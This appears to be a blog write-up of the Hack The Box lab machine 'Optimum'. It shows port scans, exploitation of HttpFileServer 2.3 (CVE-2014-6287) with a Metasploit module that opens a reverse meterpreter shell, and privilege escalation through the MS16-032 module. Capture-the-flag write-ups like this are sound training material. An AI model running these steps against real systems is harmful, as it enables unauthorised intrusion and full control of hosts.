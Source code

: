 ```yaml
---
layout: post
title: HTB Machine - Optimum
subtitle: Writeup
cover-img: 
thumbnail-img: 
share-img: 
tags: [ HTB,Hack the Box,Network,Vulnerability Assessment,Injection,Outdated Software,Security Tools,OS Command Injection,Python]
---
```

Ping analisys: Windows box
Scans:
```zsh
sudo nmap -sS 10.10.10.8 -p- --open --min-rate 5000 -n -Pn -oG ./nmap/allports
sudo nmap -sCV 10.10.10.8 -p80 -oN ./nmap/targeted
whatweb http://10.10.10.8
http://10.10.10.8 [200 OK] Cookies[HFS_SID], Country[RESERVED][ZZ], HTTPServer[HFS 2.3], HttpFileServer, IP[10.10.10.8], JQuery[1.4.4], Script[text/javascript], Title[HFS /]
```

the server uses a HttpFileServer 2.3. Using searchsploit we can check for a CVE vulnerability for RCE the CVE-2014-6287. Perhaps metasploit has something for that CVE. 
```zsh
msfconsole

search httpfileserver
```
We have a hit so let us use, configure and run the exploit. 
```zsh
use exploit/windows/http/rejetto_hfs_exec
options
set rhosts 10.10.10.8
set lhost tun0
run
```
We have a meterpreter shell to the machine and now we can poke around to find the flag. 

Since we have a meterpreter session lets background the session and use the local exploit suggester to see if something interesting comes up. 
```zsh
bg
search local exploit suggester
use post/multi/recon/local_exploit_suggester 
options
set session 1
run
```

great! 2 options come up. Lets use the secondary logon handle privesc
```zsh
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc 
options
set session 1
set lhost tun0
set lport 4442
run
```

And we gained a root meterpreter session that we will use to drop into a shell and grab our root flag. 
